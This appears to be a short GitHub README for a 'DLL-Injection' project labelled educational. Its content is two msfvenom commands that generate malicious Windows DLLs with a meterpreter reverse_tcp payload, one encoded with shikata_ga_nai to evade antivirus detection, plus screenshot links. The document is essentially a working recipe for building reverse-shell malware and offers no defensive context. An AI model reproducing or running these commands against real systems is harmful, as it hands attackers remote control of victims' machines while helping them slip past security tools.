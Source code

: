 # DLL-Injection
simple DLL Injection; made for educational purposes

### crafiting a x86 malicious DLL with sgnx86 enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai -f dll -o dll_sgnx86.dll<br>
<br>![alt text](https://i.imgur.com/K7wLZmC.png)

### crafiting a x86 malicious DLL without enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -f dll -o dll_x86.dll<br>
<br>![alt text](https://i.imgur.com/DN81LZr.png)
